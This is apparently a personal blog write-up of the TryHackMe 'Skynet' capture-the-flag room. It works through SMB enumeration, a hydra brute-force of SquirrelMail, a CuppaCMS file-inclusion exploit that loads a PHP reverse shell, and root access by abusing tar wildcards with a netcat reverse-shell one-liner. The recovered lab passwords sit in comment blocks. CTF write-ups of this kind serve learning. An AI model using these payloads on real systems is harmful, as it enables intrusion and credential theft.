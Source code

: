 #+TITLE: THM: Skynet
#+subtitle: Sigh...Hasta La Vista
#+DATE: <2023-12-15 11:32>
#+DESCRIPTION: 
#+FILETAGS: tryhackme

Yesterday I lost the opportunity to use "I'll be back" on my post's
title. Unfortunate but I had not seen ~Skynet~ in the list of my TODO
rooms.

* Reconnaissance
Start by updating ~/etc/hosts~ and ~.bashrc~, to save yourself some time.

 #+NAME: Update hosts and bashrc
 #+begin_src bash
 echo "10.10.201.239  skynet.thm" >> /etc/hosts
 echo "IP=skynet.thm" >> ~/.bashrc
 #+end_src


** Port Scanning
The usual CTF-oriented nmap quick scan revealed quite a lot of open
ports in the target machine:
- [ ] 22: SSH
- [ ] 80: HTTP webserver
- [ ] 110: pop3: Dovecot pop3d
  - POP3 mail server
- [ ] 139: Samba (3.X-4.X)
- [ ] 143: imap: Dovecot imapd
- [ ] 445: Samba 4.3.11 

I started the full scan, just to be thorough enough, but we had enough
data to get going
#+NAME: Initial nmap scan
#+begin_src bash
nmap -sV -sC -oN nmap.initial $IP
nmap -p- -oN nmap.full -T4 $IP
#+end_src

** Understanding target ports
** Website
The webserver strangely looks like a search engine, and it does not
produce any results to the random strings I tried.  

#+caption: Homepage
[[file:images/Reconnaissance/20231215_114140_screenshot.png]]

*** Directory Enumeration with gobuster
Seeing that I was unable to get any promising information manually, I
did not lose any more time, before launching gobuster:

#+NAME: Gobuster with IP and default path
#+begin_src bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://$IP -o gobuster.big
#+end_src

That, in turn, gave us some directories to check:
#+begin_example
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/ai (Status: 301)
/config (Status: 301)
/css (Status: 301)
/js (Status: 301)
/server-status (Status: 403)
/squirrelmail (Status: 301)
#+end_example

While most of these show up as forbidden, *squirrelmail* is promising:

#+caption: SquirrelMail Login page
[[file:images/Reconnaissance/20231215_114714_screenshot.png]]


Sadly *searchsploit* did not reveal any usable exploits for that version
(had it been for 1.4.22, we would have a perfectly fine RCE...shame)

** Samba enumeration
Just from what we have already seen, we do not have any credentials or
information about the users of this machine. Putting web analysis and
enumeration on hold for Samba might be the right move to make:

#+caption: Nmap samba info
[[file:images/Reconnaissance/20231216_125505_screenshot.png]]

I'm thinking of using ~smbclient~ and if that does not get us anywhere
~enum4linux~ to get some more information about the shares available

Smbclient does a pretty decent job:
#+NAME: Smbclient share enumeration
#+begin_src bash
smbclient -L $IP -U guest
#+end_src

 #+caption: Shares on target samba
 [[file:images/Reconnaissance/20231216_125934_screenshot.png]]

Now it would be interesting to connect to any of those shares (except
for print actually):
- [ ] anonymous might be the only one not password protected
- [ ] milesdyson might gives us some more information about the user
- [ ] IPC might have some interesting files for us (perhaps a path to
  gain initial foothold or privilege escalation later on)
 
**** Anonymous
 #+NAME: Connect to anonymous smb share
 #+begin_src bash
smbclient //$IP/anonymous -U guest
 #+end_src

Not much here:
- An ~attention.txt~ file, simply pointing at a /recent system
  malfunction/.
- A log subdirectory containing:
  - ~log1.txt~: Looks like a wordlist - maybe checking it with hydra
    against the login prompt (or the samba share / ssh server maybe) with
    ~milesdyson~ (?)
  - ~log{2,3}.txt~: empty files

**** Milesdyson
#+NAME: Connect to anonymous smb share
#+begin_src bash
smbclient //$IP/milesdyson -U guest
#+end_src

Access denied - can't login here as ~milesdyson~.

** Testing the wordlist
- The given wordlist proved useless for ssh login
- Testing the wordlist on the mail entrypoint was a good choice : we
  got miles password
  
#+NAME: Hydra bruteforcing mail
#+begin_src bash
hydra -l milesdyson -P log1.txt $IP http-post-form "/squirrelmail/src/redirect.php: login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:incorrect"
#+end_src

#+begin_comment
cyborg007haloterminator
#+end_comment

** Checking the mail
Using the newly found password, we can try to see if there is any
useful information in the user's email account:

*** Password rEsEt
#+caption: Lo and Behold
[[file:images/Reconnaissance/20231216_131629_screenshot.png]]

#+begin_comment
)s{A&2Z=F^n_E.B`
#+end_comment

*** Yeah don't know about that
In another mail, we get this binary sequence, which given its
structure suggests the usage of a binary to ASCII converter: The final
text makes *absolutely* no sense:

#+begin_example
balls have zero to me to me to me to me to me to me to me to me to
#+end_example

#+caption: Peculiar, obfuscated hexdump
#+DOWNLOADED: screenshot @ 2023-12-16 13:17:54
[[file:images/Reconnaissance/20231216_131754_screenshot.png]]

After viewing the last email, the "hexdump" from above seems to be a
line from a song (?) - Nah. Searching for it online it *interestingly*
points to an incident in Facebook Artificial Intelligence lab: [[https://languagelog.ldc.upenn.edu/nll/?p=33355][see
here]]


** Going back to the samba shares
#+NAME: Connect to milesdyson smb share as milesdyson
#+begin_src bash
smbclient //$IP/milesdyson -U milesdyson
#+end_src

In this share there are some machine/deep learning related pdfs, a
wide set of markdown notes on these topics (might be worth checking
out :P), and a file titled ~important.txt~. *Sigh* I mEaN wHeRe sHoUlD I
gO nOw?

#+caption: Important.txt
[[file:images/Reconnaissance/20231216_132530_screenshot.png]]


#+begin_comment
/45kra24zxs28v3yd
#+end_comment

** Checking the CMS
#+begin_comment
http://skynet.thm/45kra24zxs28v3yd/administrator/
#+end_comment
There seems to be a personal webpage at the new link we found out
about. Again, enumeration is due:
- ~/administrator~ gets found by gobuster

#+NAME: Gobuster with IP and default path
#+begin_src bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://$IP/45kra24zxs28v3yd -o gobuster.big
#+end_src

Visiting ~/administrator~ we get to a login page of *CuppaCMS*:

#+caption: Login page of Cuppa
[[file:images/Reconnaissance/20231216_132854_screenshot.png]]

My first thought was to check the password we had found for the email,
however, my lazy me thought: /Too manual/, check for exploits first.
Apparently there is a readily available exploit in exploit-db: 25971.

* Exploitation
** CuppaCMS
Using the following payload, as described in the exploit we found, we
see that there is:
1. LFI potential (we could maybe get a flag through that (?))
2. RFI potential (PHP injection) (a reverse shell might be nice as well)

#+begin_example
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
#+end_example

*** Generating a php reverse shell and hosting it
I always like using [[https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php][this]] as my go-to php shell so there was not much
to do:
 #+NAME: Fixing the php rev shell
 #+begin_src bash
 wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
 vim php-reverse-shell.php
 python3 -m http.server
 nc -lvnp 6969 # do not forget the listener
 #+end_src

Then, manipulating the ~urlConfig~ parameter once again we forge a
request:
#+begin_example
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.95.44:8000/php-reverse-shell.php
#+end_example

This successfully gives us an entrypoint!

* Privilege Escalation - Lateral Movement
Before doing anything else, make the shell more usable:
 #+NAME: Usability
 #+begin_src bash
 python3 -c 'import pty; pty.spawn("/bin/bash")'
 #+end_src

** www-data
We can move to miles home directory and get the user flag, but there
are some more interesting files there as well:
- share: the samba share that we have already checked
- backups.sh: i'm thinking that this will be the way to get access as
  another user: a crontab must be running and while the file itself is
  not readily exploitable by us (not writeable), we can manipulate its
  options

* Getting Root: Tar wildcards
I have seen this exploit before so I know that by creating the right
set of files, this line can result to either the creation of a SUID
shell file for us, or to another reverse shell. For the shake of
simplicity, I will go the second route.[fn:1]

#+begin_example
tar cf /home/milesdyson/backups/backup.tgz *
#+end_example

Initially I had opted for a different route but, for some reason I
could not create the checkpoint action file. Creating a /payload/ file
with the command, I changed my approach to the following: 

#+NAME: Create files
#+begin_src bash
echo ''>  '--checkpoint=1'
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.95.44 6970 >/tmp/f' > shell.sh
echo "" > "--checkpoint-action=exec=bash shell.sh"
#+end_src

* Conclusion

#+begin_export html
<div class="tenor-gif-embed" data-postid="20118743" data-share-method="host" data-aspect-ratio="1.56863" data-width="100%"><a href="https://tenor.com/view/exterminador-do-futuro-gif-20118743">Exterminador Futuro GIF</a>from <a href="https://tenor.com/search/exterminador-gifs">Exterminador GIFs</a></div> <script type="text/javascript" async src="https://tenor.com/embed.js"></script>
#+end_export

* Footnotes

[fn:1] In fact: source: https://www.sevenlayers.com/index.php/353-exploiting-tar-wildcards
